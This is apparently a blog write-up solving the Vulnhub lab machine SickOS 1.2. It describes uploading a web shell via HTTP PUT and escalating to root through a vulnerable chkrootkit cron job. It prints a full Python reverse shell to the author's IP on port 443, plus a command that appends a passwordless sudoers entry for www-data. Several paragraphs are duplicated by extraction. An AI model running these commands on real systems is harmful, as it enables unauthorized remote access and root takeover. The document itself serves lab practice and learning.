









SickOS 1.2 is an OSCP-like machine from Vulnhub and the second of its series (I haven’t solved the first one yet).
Network Scan
As always, I’ve used Nmap to sweep the network and get the IP of the target machine. In this case you will see that my IP range has changed from previous write-ups and also that my IP has changed from .128 to .130. This is because I’ve changed my computer and I had a little trouble while configuring the virtual network.

The target IP is 192.168.124.129, as .128 was the IP of my machine before it changed to .130.
Port Scan
 There are only two ports open and usually there isn’t anything interesting in the SSH server for the initial enumeration, so I started with HTTP.
There are only two ports open and usually there isn’t anything interesting in the SSH server for the initial enumeration, so I started with HTTP.
Port 80 Enumeration
The root page is a .php file that contains an image, so we can’t do anything with it. Nikto couldn’t find anything useful but Gobuster found a directory. (All the directories that start and end with ~ are treated with a 403 error, I don’t know why this happens).

The test directory has directory listing enabled, but it is empty.

At this point I wasn’t sure about how to continue, so I searched on the Internet for other methods to enumerate HTTP. I found the OPTIONS HTTP request, which enumerates the allowed request methods for a directory. This method didn’t work on the root directory, but it returned some allowed methods in the test directory.

In the “Allow” field there are the PUT and DELETE methods, which means that we can try to upload and delete files on the directory.

CUrl sets the Expect header by default, which caused a 417 Expectation Failed error on the server. To solve this I added the ‘-H “Expect:”’, which removes the Expect header because it has no content.
 I used the same shell as always (the one that gets a “cmd” argument with a command) and then I tried to spawn a reverse shell. I had lots of problems with this because none of the reverse shells that I tried worked, so I assumed that a firewall was in place and I tried to make the reverse shell connect to a common port. Port 443 (which is used by HTTPS) worked.
I used the same shell as always (the one that gets a “cmd” argument with a command) and then I tried to spawn a reverse shell. I had lots of problems with this because none of the reverse shells that I tried worked, so I assumed that a firewall was in place and I tried to make the reverse shell connect to a common port. Port 443 (which is used by HTTPS) worked.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.124.130",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
PrivEsc to Root
At first glance I couldn’t find anything useful to escalate privileges, besides the fact that the john user was in the sudo group. After a more through examination I noticed the chkrootkit file in the /etc/cron.daily directory.
 This file specifies that the chkrootkit binary will run everyday as root, so I used searchsploit to check if the binary has any vulnerability.

Chrootkit 0.49 is vulnerable and leads to privilege escalation to the user that is running the binary (which is root in this case). I checked the version of the binary to see if the exploit could work using the -V argument.
This file specifies that the chkrootkit binary will run everyday as root, so I used searchsploit to check if the binary has any vulnerability.

Chrootkit 0.49 is vulnerable and leads to privilege escalation to the user that is running the binary (which is root in this case). I checked the version of the binary to see if the exploit could work using the -V argument.
 The exploit only requires to have an executable file in the /tmp directory called update. Whenever the chkrootkit binary is executed all the contents of the /tmp/update files are also executed (as root), so we only need to get an interactive shell.
The exploit only requires to have an executable file in the /tmp directory called update. Whenever the chkrootkit binary is executed all the contents of the /tmp/update files are also executed (as root), so we only need to get an interactive shell.
In this case I simply added the www-data user to the /etc/sudoers file, but another solution could be to write an ssh key to the /root/.ssh/authorized_keys file or to spawn another reverse shell. To do so I used the following commands:
echo 'echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > /tmp/update
chmod +x /tmp/update The files in cron.daily are executed once per day so I was thinking about leaving the VM alone for a day but using “sudo -l” I noticed that the command had already executed (I’ll explain why in the next section). 
Final Explanations
Once I got root access I began investigating about the firewall and the strange cron job. To check the firewall we can use the “iptables -L” command, but I found a file in /root with the exact specification of the rules so I used it because it was easier to read.
 Basically, the rules are saying that the machine can only recieve packets with the destination port equal to 22 or 80 or with the source port equal to 443 or 8080 (the source a destination ports are reversed for the sent packets). This is why the reverse shell only worked when connecting to the port 443 of my local machine (8080 also works).
Basically, the rules are saying that the machine can only recieve packets with the destination port equal to 22 or 80 or with the source port equal to 443 or 8080 (the source a destination ports are reversed for the sent packets). This is why the reverse shell only worked when connecting to the port 443 of my local machine (8080 also works).
I found a file in the /etc/cron.d directory called chkrootkit, which also runs the chkrootkit binary but this time it runs at the maximum frequency that cron offers (the file was only readable by root). Due to this I didn’t have to wait a whole day for the binary to run. Another way to discover this cronjob without having root access could be to use “pspy” to spy the processes on the machine.

Conclusions
This has been a fairly difficult machine to solve, mainly because I didn’t know about the OPTIONS HTTP request method and I didn’t have much experience uploading files using PUT. Also, it required a little bit of guessing for the ports of the reverse shell and the frequency of the cronjob and to pay a lot of attention to details to avoid missing the cronjob.
In conclusion, this has been a great learning experience and a really fun box to solve.